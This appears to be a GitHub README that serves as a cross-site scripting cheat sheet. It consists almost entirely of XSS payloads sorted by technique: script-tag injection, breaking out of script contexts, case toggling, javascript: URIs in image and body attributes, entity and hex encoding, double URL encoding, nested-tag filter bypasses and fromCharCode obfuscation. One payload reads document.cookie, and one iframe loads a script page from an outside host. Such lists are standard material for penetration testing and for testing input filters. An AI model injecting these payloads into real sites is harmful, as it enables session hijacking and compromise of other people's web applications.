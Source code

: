 # Xss-cheat-sheet
<h2>These are some of the Xss (Cross-Site-Scripting) payloads.</h2>
<a href="https://portswigger.net/web-security/cross-site-scripting">What is Cross-Site-Scripting?</a>

Basic XSS codes:
———————————-

    ```<script>alert(“XSS”)</script>```

    ```<script>alert(“XSS”);</script>```

    ```<script>alert(‘XSS’)</script>```
    
   ```“><script>alert(“XSS”)</script>```

    ```<script>alert(/XSS”)</script>```

    ```<script>alert(/XSS/)</script>```

When inside Script tag:
<p>———————————</p>

    ```</script><script>alert(1)</script>```
    ```‘; alert(1);```
    ```‘)alert(1);//```

Bypassing with toggle case:
<p>————————————–</p>

     ```<ScRiPt>alert(1)</sCriPt>```
      ```<IMG SRC=jAVasCrIPt:alert(‘XSS’)>```

XSS in Image and HTML tags:
<p>———————————————</p>

    ```<IMG SRC=”javascript:alert(‘XSS’);”>```
   ```<IMG SRC=javascript:alert(&quot;XSS&quot;)>```
    ```<IMG SRC=javascript:alert(‘XSS’)>```      

    ```<img src=xss onerror=alert(1)>```
    ```<IMG “””><SCRIPT>alert(“XSS”)</SCRIPT>”>```
    ```<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>```
    ```<IMG SRC=”jav ascript:alert(‘XSS’);”>```

    ```<IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”>```

    ```<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>```

    ```<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>```

    ```<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>```

    ```<BODY BACKGROUND=”javascript:alert(‘XSS’)”>```

    ```<BODY ONLOAD=alert(‘XSS’)>```
    ```<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>```
    ```<IMG SRC=”javascript:alert(‘XSS’)”```

   ```<iframe src=http://ha.ckers.org/scriptlet.html <```

Bypass the script tag filtering:
<p>————————————————–</p>

    ```<<SCRIPT>alert(“XSS”);//<</SCRIPT>```

    ```%253cscript%253ealert(1)%253c/script%253e```

    ```“><s”%2b”cript>alert(document.cookie)</script>```

    ```foo<script>alert(1)</script>```

    ```<scr<script>ipt>alert(1)</scr</script>ipt>```

Using String.fromCharCode function:
<p>—————————————————–</p>

    ```<SCRIPT>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</SCRIPT>```

    ```‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>```
